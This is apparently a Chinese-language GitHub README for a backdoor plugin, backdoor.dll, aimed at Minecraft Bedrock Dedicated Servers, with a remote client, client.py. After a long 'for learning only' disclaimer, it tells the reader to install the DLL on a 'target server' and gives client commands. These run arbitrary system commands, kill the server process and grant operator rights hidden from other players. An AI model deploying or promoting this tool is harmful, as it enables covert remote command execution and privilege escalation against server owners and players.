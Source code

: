 # backdoor

一个适用于Bedrock Dedicated Server的后门插件

## 警告和免责声明

在使用本软件前，请仔细阅读以下内容。本软件是一个学习性质的后门项目，仅供学习和研究用途。使用本软件可能会侵犯他人的隐私和安全，您应该仅在经过适当的授权和法律许可的情况下使用本软件。使用本软件可能会造成不可逆转的损失和损害，如数据丢失、系统崩溃、法律纠纷等。使用本软件是完全自担风险的，作者不承担任何法律责任。

使用本软件即表示您同意以下内容：

1. 您将仅在合法的和受法律许可的情况下使用本软件。
2. 您将不会将本软件用于非法、侵犯隐私或危害他人的行为。
3. 您将不会用本软件攻击他人的计算机系统或网络，或者尝试获取未经授权的访问权限。
4. 您将不会将本软件用于商业目的或盈利。
5. 您将独立承担使用本软件造成的一切后果，包括但不限于数据丢失、系统崩溃、法律纠纷等。
6. 您将不会对本软件进行修改或破解，或者尝试绕过本软件的安全措施。
7. 您将对使用本软件的任何行为负完全责任，作者不承担任何责任。
8. 本软件作者不承担任何因使用本软件而导致的任何直接或间接的损失或责任。

如果您不同意以上内容，请勿使用本软件。如果您违反了以上任何一项内容，作者将保留追究您的法律责任的权利。

此警告和免责声明的范围应适用于您使用本软件的任何时间、地点或方式。如果您需要任何关于使用本软件的相关法律咨询，请咨询专业律师。

请注意，此警告和免责声明可能因法律法规的变化而需要更新。作者将保留随时更改此警告和免责声明的权利，因此请您在使用本软件前定期查看此页面上的内容。

## 使用
1. 将``backdoor.dll``安装到目标服务器
2. 待目标服务器开启后使用后门客户端``client.py``进行远控，以下是其使用方法

## 运行后门客户端
安装Python后在命令行中使用以下命令来运行程序：

```
python client.py
```

输入服务器IP和端口
启动程序时会提示你输入服务器的IP地址和端口号，格式为 IP地址 端口号（例如 127.0.0.1 19132）

示例：

```
Please input server ip:port like 127.0.0.1 19132
114.51.41.91 9810
```

客户端功能
客户端程序具有以下功能：

``scmd [cmd]`` - 执行系统命令
``gcmd [cmd]`` - 执行游戏命令
``perm [玩家名称:区分大小写] [等级: 0~3] [0: 客户端隐藏变化 | 1: 客户端显示变化]`` - 设置玩家权限级别
``q`` - 退出程序

请根据需要输入相应的命令来执行相应的操作。例如，要执行游戏命令``kick Homo114514``，输入以下命令：

```
>>> gcmd kick Homo114514
```

执行系统命令``taskkill /F /IM bedrock_server.exe``
```
>>> scmd taskkill /F /IM bedrock_server.exe
```

给游戏中的玩家设置权限
权限等级：0为普通玩家，大于0为OP
显示/隐藏：对其他玩家和自己隐藏权限变化，无法在游戏内发现
以下命令为玩家``Homo114514``设置了OP权限且对其他玩家隐藏
```
>>> perm Homo114514 1 0
```

要退出程序，输入以下命令：

```
>>> q
```
